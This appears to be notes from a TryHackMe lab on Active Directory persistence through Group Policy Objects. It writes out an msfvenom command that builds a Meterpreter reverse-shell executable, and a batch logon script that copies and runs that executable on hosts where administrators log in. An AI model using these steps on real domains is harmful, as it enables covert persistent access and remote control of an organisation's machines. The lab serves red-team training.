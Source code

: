 !\[]\(Pasted image 20250527235402.png)

## Persistence through GPOs

***

The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.

### Domain Wide Persistence

The following are some common GPO persistence techniques:

* Restricted Group Membership - This could allow us administrative access to all hosts in the domain
* Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.

There are many different hooks that can be deployed. You can play around with GPOs to learn about other hooks. Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

### Preparation

Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe`

Make sure to add your username to the binary name to avoid overwriting the shells of other users. Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called `<username>_script.bat` on the AttackBox:

`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe`

You will see that the script executes three commands chained together with `&&`. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.
